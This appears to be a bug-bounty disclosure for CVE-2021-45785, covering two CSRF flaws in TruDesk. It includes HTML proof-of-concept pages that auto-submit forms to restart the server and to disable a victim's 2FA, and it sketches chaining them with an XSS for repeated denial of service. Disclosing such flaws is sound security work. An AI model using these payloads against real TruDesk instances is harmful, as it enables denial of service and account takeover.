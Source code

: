 +++
title = "CVE-2021-45785 - CSRF on TruDesk"
+++

# Description

There is a CSRF vulnerability which would allow an attacker to restart the server by simply having a victim with the appropriate privileges visit an attacker's crafted webpage.

The vulnerability exists when performing a GET request to the /api/v1/admin/restart endpoint

There is also another CSRF vulnerability which would allow an attacker to disable a victim's 2FA (`/api/v1/users/<user ID>/removel2auth`). This requires the victim's user ID, but this can easily be obtained by simply deleting a conversation with the victim which is a vulnerability that I described here: https://huntr.dev/bounties/74c6f886-2869-4b32-bef3-2cb3991a9311

# Proof of Concept (PoC)

For resetting the server

```html
//serverReset.html
<html>
    <form action="https://docker.trudesk.io/api/v1/admin/restart" method="GET"/>
    <script>
        document.forms[0].submit();
    </script>
</html>
```

For disabling 2FA

```html
<html>
   < -- change the user ID to the user ID of the victim for which you're disabling 2FA -- >
    <form action="https://docker.trudesk.io/api/v1/users/<user ID>/removel2auth" method="POST"/>
    <script>
        document.forms[0].submit();
    </script>
</html>
```

# Impact

This vulnerability is capable of performing a DoS attack on the server which can have a major business impact. It can be paired with the XSS vulnerability that I found & reported previously to create an even more effective DoS attack.

For example, an attacker could craft an XSS payload that would automatically redirect a victim to their webpage where the CSRF attack that restarts the server would take place. The attacker could spam the victim with messages that contain the XSS payload. Then each time the attacker opens the message, the victim would be redirected & the CSRF attack would take place and the server would restart.

# References

* https://huntr.com/bounties/af3ecce4-840f-445e-98d0-11557cd8de1f
